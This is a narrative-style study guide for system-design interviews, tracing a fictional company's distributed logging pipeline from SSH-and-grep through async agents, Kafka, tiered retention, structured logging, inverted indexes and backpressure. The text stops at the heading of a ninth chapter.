










# Distributed Logging — The Story (narrative edition)

> **What this file is.** The reference file, `22-Distributed-Logging-FAANG-Guide.md`, is the one to recite from — requirements, the component list, the capacity math, every trade-off table, the master cheat sheet. This file is a second way in: the same material as one continuous story, told in plain language. Engineers at a company keep hitting a wall, patch it, and the patch itself creates the next wall — until we land on the exact same architecture the reference file documents. The company, **Waypoint** (a workflow-automation SaaS, think "the tool that routes approvals and tasks between teams"), is fictional. But every wall it hits is something a real, named system actually hit first: Kafka (built at LinkedIn specifically for log aggregation, 2011), the ELK stack, Grafana Loki, Splunk, Log4Shell, Google's Dapper tracing paper, Facebook's Scuba, and GDPR's erasure clause are all real and documented. I'll say clearly, every time, whether a number is a documented fact or a reasonable stand-in — those get an `[illustrative]` tag.

**The trigger phrase** for this whole topic: *"how do you find out what happened, across hundreds or thousands of machines, without SSH-ing into every single one."* Keep one sentence in your head as you read: **logging's whole job is to move "an event happened somewhere in the fleet" to "a human or an alert can find it," fast enough to matter, without ever slowing down the request that generated it.** Everything below is just this one idea getting harder, in small, honest steps.

---

## Chapter 1 — The grep that took forty-five minutes

Waypoint starts small: six servers, one Python monolith, `logging.info(...)` writing to a local file on each box. When something breaks, an engineer SSHes into the one or two boxes involved and greps for the error. Slightly annoying, totally fine at six servers.

Two years later, Waypoint has grown to **210 application hosts** across a dozen services. A customer reports their approval-workflow emails never arrived. On-call has no idea which of the 210 hosts even touched that request, so they write a loop: `for host in hosts: ssh $host grep -i "workflow-88213" /var/log/app.log`. At roughly 2 seconds per host for the SSH handshake plus the grep `[illustrative]`, that's about 7 minutes just to touch every host once — and that's the *good* case. Two hosts already rotated their logs away (logrotate only keeps 3 days locally). One host was terminated by the autoscaler 40 minutes ago, and its local disk — and every log line on it — went with it. The incident actually takes **45 minutes** to resolve, and most of that time is spent guessing which hosts were even involved, not reading logs.



The obvious next question: *why not just grep faster, or write a smarter script?* Because speed was never the actual problem — the evidence is scattered across 210 separate, ephemeral disks, and a host the autoscaler already killed takes its evidence into the void with it. You cannot SSH into a machine that no longer exists.

**The fix, and the analogy for the rest of this story:** ship every log line off the host, continuously, to one shared, durable destination instead of leaving it on local disk. Think of each host as **a plane's own black box, and the fix is wiring every plane to radio its recorder's contents down to one shared control tower continuously** — instead of only being able to read the box if you can physically recover the wreckage. This is the whole category of **log shipping** — Filebeat, Fluentd, Fluent Bit, and syslog forwarders all exist to do exactly this in real production fleets.

**New problem, immediately:** "ship it somewhere" needs a somewhere. The fastest thing Waypoint's platform team can build next quarter is the most obvious idea: have every `log.info()` call write straight into one shared central database, synchronously, so there's one place to query. That ships next sprint.

**How I'd say this in an interview:** "Local files don't scale past a handful of hosts, for two reasons — you can't search across machines fast enough by hand, and an ephemeral host can simply disappear and take its evidence with it. The fix is always some form of shipping logs off the host continuously, which is exactly what tools like Fluentd or Filebeat exist for — but *where* you ship them to is a whole separate design problem."

---

## Chapter 2 — The shortcut that blocked checkout

The naive fix: every service's logging call now does a synchronous `INSERT` into one shared Postgres `logs` table, before the request is allowed to return — because that really is the simplest way to get "everything queryable in one place." At normal load, that INSERT adds about 12ms `[illustrative]` on top of a 45ms request — barely noticeable.

Then a marketing push drives a traffic spike. Every service is now hammering the same shared logs table concurrently, and row-lock contention on that one table pushes the INSERT latency to **1,100ms**. Do the math the way you would in an interview: checkout has a fixed pool of **150 worker threads**. Normal case: request = 57ms → capacity ≈ 150 ÷ 0.057s ≈ **2,600 req/s**, comfortably above the real peak of 900 req/s. Spike case: request ≈ 45ms + 1,100ms ≈ 1,145ms → capacity ≈ 150 ÷ 1.145s ≈ **131 req/s** — a fifth of the 900 req/s still arriving. Within about 90 seconds, all 150 threads are stuck waiting on the log table, and checkout starts rejecting brand-new orders outright.



Obvious question: *why does writing a log line about the order get to block the order itself?* Because the code treats "save the order" and "log about saving it" as one inseparable step. If logging doesn't need to finish before the customer can be told "success," it shouldn't be able to hold that response hostage.

**The fix:** make logging **asynchronous and non-blocking** from the app's point of view. A small local agent — an accumulator, running as a sidecar or in-process — takes the log line, buffers it, and returns to the caller *instantly*; this is exactly what a real local agent like Fluent Bit or Filebeat does in production. **The analogy for the rest of this story: the waiter's notepad.** A busy waiter jots your order on a pad and walks straight to the next table — they don't stand at the kitchen window until your food is cooked before taking anyone else's order. The app hands the log line to the notepad and moves on with its real job.

**New problem, three weeks later:** the fastest thing to build was an in-memory buffer inside the agent — a plain list in RAM. A routine deploy restarts every checkout host at once. At that exact moment, the buffers across the fleet are holding roughly **6,400 buffered log lines** `[illustrative]` — and every one of them vanishes the instant the process exits. Not catastrophic most days, but during the postmortem for a real incident that happened minutes before that deploy, the one ERROR line that would have explained it is simply gone.

**How I'd say this in an interview:** "The fix for logging on the critical path is always async — hand off to a local buffer and return immediately, the same waiter's-notepad idea you'd use for any slow, non-essential side effect. But an in-memory buffer alone just moves the loss window from 'blocked request' to 'lost on crash,' which is the very next thing that has to get fixed."

---

## Chapter 3 — Sticky notes vs. the bolted-down ledger

Break, restated with the number: 6,400 buffered lines gone in one ordinary deploy `[illustrative]`. Not a rare disaster — a routine, scheduled, entirely expected event just erased evidence.

Obvious question: *how do we stop a normal deploy from wiping out the buffer?* Don't keep the only copy of anything in RAM.

**The fix:** the local agent writes buffered lines to a small on-disk file — a write-ahead log — **before** it's allowed to consider the entry safely "received," and Waypoint runs more than one accumulator per host so a single crashed process isn't the only thing holding unflushed data. **The analogy:** a sticky note stuck to a monitor is gone the second the desk gets bumped; a heavy ledger bolted to the counter survives a shift change, because the proof something happened lives on paper, not in one clerk's head. Waypoint's agents flush that on-disk WAL every second, so at worst a crash loses one second's worth of logs, not everything since the last deploy.



**New problem — this one isn't about crashes at all.** Durable local buffering fixes loss on *one host*, but every host is still shipping into the exact same shared central database from Chapter 1/2 — just async and durable now instead of synchronous. That database still has one disk, and one disk still has a ceiling. Real number: Waypoint is now at 210 hosts × roughly 250 log lines/sec/host ≈ **52,500 logs/sec** fleet-wide. The shared database benchmarks at about **3,000 sustained inserts/sec** before it starts falling behind `[illustrative]`. At 52,500/sec sustained, the backlog grows by roughly 49,500 log lines *every second* — after 10 minutes, that's on the order of **30 million** backlogged lines waiting to be written, and now the agents' own local buffers start filling up too, because nothing downstream is draining fast enough.

**How I'd say this in an interview:** "Durability protects against a crash, but it does nothing about throughput — one machine's disk was always going to have a ceiling, no matter how carefully you write to it. The next move is the same one you'd make with any database that outgrew a single box: stop making everyone write to the same slow thing directly, and put something elastic in between."

---

## Chapter 4 — The sorting depot between every plane and the tower

The fix: put a distributed, partitioned, replicated **pub-sub cluster — Kafka — between the accumulators and storage.** This is literally why Kafka exists: it was built at LinkedIn specifically to handle log and activity-stream aggregation at internet scale, open-sourced in 2011, and documented in the original Kreps/Narkhede/Rao paper. Producers (Waypoint's agents) push batches; Kafka absorbs bursts by writing to a partitioned log across many brokers; whatever eventually needs the data drains it at its own pace, completely decoupled from how fast it arrived.

**The analogy:** think of Kafka as **the sorting depot sitting between every mail carrier's route and the archive room.** Instead of every carrier walking straight to one slow archive door and waiting in line, they drop sacks at a big depot with many loading docks — the depot can absorb a whole morning's rush that would jam a single door, and separate trucks drain it into the archive whenever they're actually ready, without the carriers ever waiting on the trucks.



Waypoint reworks the pipeline exactly this way: agent → Kafka → a filterer that routes each app's logs into its own storage bucket, plus an error aggregator that watches the same stream for ERROR/FATAL lines and pages the owning team directly. Both consumers read the same Kafka stream independently, at whatever pace they can manage — one slow consumer no longer backs up the other, and neither backs up the producers.

**New problem:** Kafka absorbs bursts beautifully, and the team pours everything that comes off it into one destination — a single, fully-indexed Elasticsearch cluster, because that's the simplest way to make it all instantly searchable. It works, search is fast, and everyone's happy... for now. Nobody has put a lifespan on any of this data.

**How I'd say this in an interview:** "A pub-sub layer like Kafka exists to decouple producers from consumers completely — the producer never needs to know or care how fast the consumer is. This is literally Kafka's origin story: LinkedIn built it for exactly this log-aggregation problem in 2011. But 'decoupled' just means the data flows smoothly now — it says nothing yet about where that data should live long-term, or what it should cost."

---

## Chapter 5 — The filing cabinet that never stopped growing

Eighteen months of "everything lives in Elasticsearch, forever" go by. Waypoint is now around 800 hosts, roughly 150,000 logs/sec at peak, average structured line ≈ 450 bytes. Raw ingest ≈ 67.5 MB/s; even with a friendly 5:1 gzip compression ratio (real text-log compression ratios genuinely run 5–10×), that's ~13.5 MB/s compressed. Kept fully indexed, replicated ×2, with the usual ~1.3× inverted-index overhead, forever: 13.5 MB/s × 86,400 s/day ≈ 1.14 TB/day single-copy → over 540 days (18 months) that's **~615 TB** raw-compressed, × 2.6 (replication + index overhead) ≈ **~1.6 PB** sitting in a fully-indexed, SSD-backed search cluster — and most of it hasn't been queried since the day it was written. The Elasticsearch bill has quietly become one of the largest line items in infra's cloud spend `[illustrative]`.

Obvious question: *does a log line from 300 days ago need to be instantly, full-text searchable in milliseconds, the same as a line from 10 minutes ago?* No — almost nobody queries logs older than two weeks. But when they do (a security audit, a bug that resurfaces after months), the data needs to *exist*, not to be instant.

**The fix: tier the retention.** Hot → warm → cold → deleted, with an expiration checker that actively moves data down the tiers on a schedule instead of leaving everything hot forever. **The analogy: a filing cabinet on your desk, a storage unit down the street, and an offsite vault you only visit by appointment.** Hot = the filing cabinet: fastest, most expensive, ~14 days. Warm = the storage unit: still searchable, slower, cheaper, up to ~90 days. Cold = the offsite vault: not searchable in place at all, cheapest by far, kept up to a year or more for compliance. The mnemonic that sticks: **"Hot is for firefighting, warm is for last week, cold is for lawyers."**



**New problem:** cold storage is cheap specifically *because* it isn't sitting in a live search index. So the day a security audit finally does need those 8-month-old logs, the query can't just come back instantly — a Glacier-style retrieval genuinely takes **minutes to hours**, not seconds. The search API has to change shape for anything reaching into cold tier: return partial results from hot/warm immediately, and kick off an async restore job for the rest instead of just failing the whole query.

**How I'd say this in an interview:** "Storage cost is the thing that actually forces tiering — keeping everything hot forever grows unbounded, and almost none of it is ever read again after a couple of weeks. The trade you're accepting is that cold-tier reads are slow and asynchronous — a restore job, not an instant query — and that's a fair trade for 10-20x cheaper storage on data nobody's touching."

---

## Chapter 6 — A million whispers drown out the one shout

A separate track, running in parallel: someone on the platform team tries to write their first alert rule — "page me the instant checkout logs an error." But logs today are free-text strings like `"ERROR checkout failed for order 88213 - gateway timeout after 5023ms"`, and every service's engineers phrase their errors slightly differently. There's no reliable field to match on except regex against raw text. Worse, at Waypoint's current volume, **DEBUG-level noise makes up roughly 70% of all log lines** — a real, common ratio for verbose application logging — so scrolling for the handful of ERROR lines means wading through thousands of whispered DEBUG lines first, by eye or by increasingly fragile regex.



Obvious question: *how do you make a machine — not a human squinting at a terminal — reliably find "checkout errors" among a million lines a second?* Give every log line the same predictable shape, with real, named fields, instead of a free-form sentence.

**The fix: structured logging.** Every log line becomes JSON with agreed fields — `timestamp`, `level`, `service`, `trace_id`, `message` — plus a fixed, ordered set of severity levels. **The analogy:** free text is a shout in a crowded room, where everyone phrases things differently; a structured field is a labeled box on a form — everyone fills in "Level: ERROR" in the same box, so a machine reads box #2 instead of parsing a sentence. The mnemonic that sticks: *"Debug whispers, Info narrates, Warning nags, Error shouts, Fatal buries."*

**New problem:** structure is wonderful for the fields the team planned for — but developers being developers, someone starts stuffing an unbounded, arbitrary value into a field meant to be small and structured: a full request body, or worse, a raw user ID used directly as a field they want to filter on. Search that used to be instant starts slowing down, and one specific field's index quietly starts ballooning far faster than the rest.

**How I'd say this in an interview:** "Unstructured text can't be reliably searched, alerted on, or sampled — it's the prerequisite for everything downstream. But structure only helps for the fields you actually planned to index; the moment someone puts an unbounded, high-cardinality value into an indexed field, you get a whole new cost problem, which is exactly what indexing forces you to confront next."

---

## Chapter 7 — Reading every book cover to cover

Even with structured fields flowing into blob storage, "search" so far just means scanning every stored object for a match — grep, just centralized instead of scattered across 210 hosts. At 150,000 logs/sec, a naive full scan of a single day's logs — roughly 13 billion structured lines — to find every occurrence of "timeout," at a generous scan rate of 5 million lines/sec `[illustrative]`, takes about **2,600 seconds — 43 minutes** for one query. Useless in the middle of a live incident.

Obvious question: *how do you avoid reading every single line just to find the ones containing one word?* Build an index that maps the word straight to the lines that have it, instead of checking every line for the word.

**The fix: an inverted index.** Instead of storing "line 42 contains these words," store "the word 'timeout' appears in lines 12, 42, 981, ..." — a term → posting-list map. This is exactly how Elasticsearch (and Lucene underneath it) actually works. A search for `"timeout" AND service=checkout` becomes intersecting two short lists instead of scanning everything. **The analogy: a library card catalog.** You don't pull every book off the shelf and read the first page — you look up the word in the catalog, and it tells you exactly which shelf to walk to.

```text
Term              → Posting list (line IDs)
"timeout"         → [42, 981, 1204, ...]
service=checkout  → [12, 42, 55, 981, ...]
Query: "timeout" AND service=checkout → intersect(...) = [42, 981, ...]
```

Paired with this: **time-based partitioning** — one index per service per day (`logs-checkout-2026.07.18`) — so a "last 15 minutes" query never even opens last month's index; it prunes whole indices instead of scanning filtered rows out of one giant one, and it's also *why* Chapter 5's tier migration can move "everything older than 14 days" as a handful of whole-index relocations instead of a row-by-row delete.

**New problem:** full-text indexing every field is exactly what makes Chapter 6's cardinality warning bite for real. Indexing a raw user ID or a full stack trace as a searchable field means every unique value becomes its own entry in the posting list, and the index write path starts lagging behind ingestion. The fix has to be a deliberate split: `service`/`level`/`trace_id` get indexed as small, exact-match "keyword" fields; only `message` gets full-text tokenized; things like full request bodies get **stored** in blob storage (still retrievable by trace_id) but never indexed.

**How I'd say this in an interview:** "An inverted index turns 'scan everything' into 'look up the term, intersect a couple of short lists' — the same trick any real search engine uses. Time-based, one-index-per-service-per-day partitioning is what makes both fast range queries *and* cheap tier migration possible, and it's worth saying that connection out loud — it's the detail that separates a senior answer from a memorized diagram."

---

## Chapter 8 — The lifeboat is full, and one passenger won't stop shouting

Two related incidents, weeks apart. **First:** Kafka has a rough night — a broker restart makes the cluster briefly unreachable for about **30 seconds**. Waypoint's local agents keep buffering into their durable on-disk queue from Chapter 3, but that buffer has a hard cap — 2 GB, the same 256-chunks-×-8MB shape real Fluentd deployments configure. At current sustained ingestion of ~150,000 logs/sec × 450 bytes ≈ 67.5 MB/s, that 2 GB buffer fills in **about 30 seconds** — which is exactly as long as the outage lasts. It's a coin flip whether anything actually gets dropped.

**Second, separately:** one customer's integration starts retry-looping against a broken webhook and floods its own service's logging to roughly **40x its normal rate**, eating into the shared Kafka partitions' throughput and slowing ingestion down for every *other* tenant sharing that cluster — a textbook noisy neighbor.



Obvious question, asked twice, same shape both times: *when the boat is about to sink, what goes overboard first — and do you let the loudest passenger's oversized luggage sink it for everyone else?* Some cargo matters more than other cargo, and some passengers don't get to consume everyone else's share.

**The fix: shed by priority, and quota by tenant. The analogy: the lifeboat is full.** When the local buffer nears its cap, drop DEBUG/INFO lines first and always keep WARN/ERROR/FATAL — losing verbose chatter during an outage is fine; losing the ERROR line that explains the outage is not. Separately, give every tenant a rate quota enforced both at the agent and at the filterer, so one noisy passenger can only ever consume their own allotted seat, never anyone else's.

**New problem:** shedding and quotas protect the pipeline *in the moment* of an outage or a flood. But Waypoint is still logging far more DEBUG/INFO than anyone will ever read even on a perfectly calm day — that's a standing, steady-state cost problem, not an emergency one, and no amount of emergency shedding fixes a bill that's too high every single ordinary day.

**How I'd say this in an interview:** "Backpressure policy is the decision that matters the moment a downstream system slows down — blocking the app thread just reintroduces the exact critical-path bug from Chapter 2, so the default is always shed-by-priority: keep the signal, drop the noise. Multi-tenant quotas are the same idea applied across tenants instead of across log levels — one noisy customer shouldn't get to degrade everyone else sharing the cluster."

---

## Chapter 9 — Interviewing everyone vs. surveying a sample

